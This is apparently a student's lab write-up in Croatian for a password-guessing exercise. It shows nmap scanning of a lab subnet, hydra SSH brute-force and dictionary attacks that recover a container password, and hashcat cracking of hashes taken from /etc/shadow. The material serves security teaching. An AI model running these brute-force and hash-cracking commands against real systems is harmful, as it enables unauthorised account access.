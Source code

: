 # Lab 5 - Online and Offline Password Guessing

 Alati koji nam trebaju za ovu vježbu su nmap, hydra i hashcat. 
 Osnovne informacije o nmap-u možemo saznati komandom whatis.
 ``` whatis nmap
nmap (1)             - Network exploration tool and security / port scanner
```

## Online Password Guessing

Koristimo nmap na lokalnoj mreži: 
``` 
nmap -v 10.0.15.0/28
```
Nmap skenira dostupna računala i traži otvorene portove.
Na http://a507-server.local/ pronalazim docker container koji mi pripada. Njegov username je vrandecic_daniel, a IP adresa 10.0.15.0. Ne mogu se povezati
na svoj container pomoću ssh vrandecic_daniel@10.0.15.0 jer je potrebna lozinka koju ne znam.
Znamo da lozinka ima 4 do 6 znakova koji mogu biti od a do z (lowercase) - ukupno 26 mogućih znakova.
Postoji 26^4 mogućnosti ako ima 4 znaka, 26^5 ako ima 5 znakova ili 26^6 ako ima 6 znakova.
Ukupan password space je 26^4 + 26^5 + 26^6 što je približno 2^29. 

Pozivamo hydra s poznatim korisničkim imenom, IP adresom containera i ograničenjima lozinke.
```hydra -l vrandecic_daniel -x 4:6:a 10.0.15.0 -V -t 4 ssh```
U outputu je navedeno da je rate (brzina testiranja) 64 test/s = 2^6 test/s. Budući da je lozinka vjerojatno u prvoj polovici password spacea veličine 2^29, dovoljno je 2^28 testova.
Potrebno vrijeme da ih se izvrši uz navedeni rate je T = 2^28/2^6 = 2^22 min, što je približno 8 godina. To vrijeme je predugo pa koristimo već gotov dictionary
koji
skidamo sa servera: ```wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g5/```.
Sada pozivamo hydra s dobivenim dictionaryjem: ```hydra -l vrandecic_daniel -P dictionary/g5/dictionary_online.txt 10.0.15.0 -V -t 4 ssh```.

```
[22][ssh] host: 10.0.15.0   login: vrandecic_daniel   password: byllyt
1 of 1 target successfully completed, 1 valid password found
```

Konačno je pronađena lozinka za moj container, byllyt, i sada se mogu prijaviti u container.

## Offline Password Guessing

U /etc/shadow su hashevi lozinki. Željeni hash spremamo u hash.txt. Pokušamo pronaći lozinku pomoću 
```hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10```, ali vidimo da bi na ovaj način trebalo bi previše vremena, pa koristimo
lokalni dictionary. 
```hashcat --force -m 1800 -a 0 hash.txt dictionary/g5/dictionary_offline.txt --status --status-timer 10```.
Nakon nekog vremena hashcat pronalazi traženu lozinku.
